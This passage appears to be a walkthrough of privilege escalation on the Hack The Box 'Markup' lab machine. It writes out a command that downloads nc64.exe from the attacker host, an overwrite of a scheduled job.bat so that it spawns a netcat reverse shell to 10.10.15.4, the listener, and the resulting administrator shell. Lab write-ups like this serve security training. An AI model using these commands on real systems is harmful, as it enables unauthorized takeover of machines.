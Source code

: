 And the next step from the shell we have on the host:

```
PS C:\Log-Management> Invoke-WebRequest http://10.10.15.4/nc64.exe -OutFile nc64.exe
```

Note: the official write-up suggests using the following command: ```wget http://10.10.15.4/nc64.exe --outfile nc64.exe```, however PowerShell's ```wget``` is actually an alias for ```Invoke-WebRequest```, which doesn't recognize ```--outfile```.

*Since we have full control over the ```job.bat``` script, we will modify its' contents by running the appropriate command. Make sure to run it from the Windows Command Line, where the ```daniel@MARKUP``` user is displayed before every command, and not from Windows PowerShell, where ```PS``` is displayed before every command. Here is how to do that:*

```
PS C:\Log-Management> cmd
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Log-Management>
```

*Next, we set up the listener:

```
sudo ncat -lvnp 8000
```

*Now we execute this command on the host:*

```
echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.15.4 8000 > C:\Log-Management\job.bat
```

*Once the script executes, we receive a shell on the terminal tab the listener was active on.*

```
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.129.95.192:49683.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
markup\administrator
```

Note: the official write-up states that *the exploit might not work on the first attempt. Due to the sensitivity of the exploit, many attempts might lead to failure, in which case the exploit should be run multiple times until it becomes successful. There is no workaround for an unstable exploit.*

However, I had no problems with the exploit on my first attempt.

Locating the root flag is done with this command:

```
dir \root.txt /s /p
```

This example is now concluded.
